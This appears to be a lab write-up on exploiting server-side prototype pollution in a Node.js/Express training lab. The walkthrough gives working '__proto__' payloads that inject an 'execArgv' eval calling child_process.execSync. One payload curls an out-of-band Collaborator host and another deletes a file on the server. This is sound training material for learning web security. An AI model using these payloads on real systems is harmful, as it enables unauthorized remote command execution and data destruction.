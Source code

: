 Title: Remote code execution via server-side prototype pollution
Level: PRACTITIONER
Desc:  This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.
Due to the configuration of the server, it's possible to pollute Object.prototype in such a way that you can inject arbitrary system commands that are subsequently executed on the server.
To solve the lab:
    Find a prototype pollution source that you can use to add arbitrary properties to the global Object.prototype.
    Identify a gadget that you can use to inject and execute arbitrary system commands.
    Trigger remote execution of a command that deletes the file /home/carlos/morale.txt.
In this lab, you already have escalated privileges, giving you access to admin functionality. You can log in to your own account with the following credentials: wiener:peter
Hint
The command execution sink is only invoked when an admin user triggers vulnerable functionality on the site.


# Walkthrough:
sending request to /my-account/change-address with `"__proto__":{"json spaces":10}`
then I observe change in raw response in indentation of json. So, I know, that we have prototype pollution source

In the browser, go to the admin panel and observe that there's a button for running maintenance jobs.

Click the button and observe that this triggers background tasks that clean up the database and filesystem. This is a classic example of the kind of functionality that may spawn node child processes.

We can try something like this:
```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```
Then go to the admin panel and trigger the maintenance jobs again. Notice that these have both failed this time. It means, that we successfully polluted parameter in spawning background tasks.

Nextt we can do that: 
```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

<img width="1375" height="587" alt="image" src="https://github.com/user-attachments/assets/fecc14db-bb8c-433e-ac4f-95ab13b99f8f" />


After try to run maintenence jobs we have our command executed.
